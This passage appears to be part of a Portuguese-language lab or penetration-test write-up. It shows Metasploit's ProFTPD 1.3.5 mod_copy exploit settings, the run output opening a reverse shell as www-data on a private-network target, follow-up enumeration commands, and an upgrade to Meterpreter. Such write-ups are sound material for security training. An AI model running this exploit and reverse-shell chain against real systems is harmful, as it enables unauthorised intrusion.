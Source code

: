 ```console
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

**Resultados Obtidos**  

Foi aberta uma sessão de shell que evidenciou o acesso inicial com o usuário www-data:

```console
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit
[*] Started reverse TCP handler on 192.168.0.156:4444 
[*] 192.168.0.207:80 - 192.168.0.207:21 - Connected to FTP server
[*] 192.168.0.207:80 - 192.168.0.207:21 - Sending copy commands to FTP server
[*] 192.168.0.207:80 - Executing PHP payload /SPkWnJ.php
[+] 192.168.0.207:80 - Deleted /var/www/html/SPkWnJ.php
[*] Command shell session 3 opened (192.168.0.156:4444 -> 192.168.0.207:37890) at 2025-03-06 10:22:46 -0500

whoami
www-data

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

hostname
ubuntu

uname -a
Linux ubuntu 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

pwd
/var/www/html
```
Esse acesso inicial permitiu a enumeração dos usuários e do sistema, possibilitando a identificação de outros pontos vulneráveis para escalonamento de privilégios.

**Utilização do Meterpreter**

Após obter a shell com o usuário `www-data`, atualizamos a sessão para Meterpreter utilizando o módulo `post/multi/manage/shell_to_meterpreter`. Essa atualização ampliou significativamente as opções de pós-exploração, permitindo uma flexibilidade maior para executar comandos do sistema, redirecionar portas e automatizar a coleta de informações.

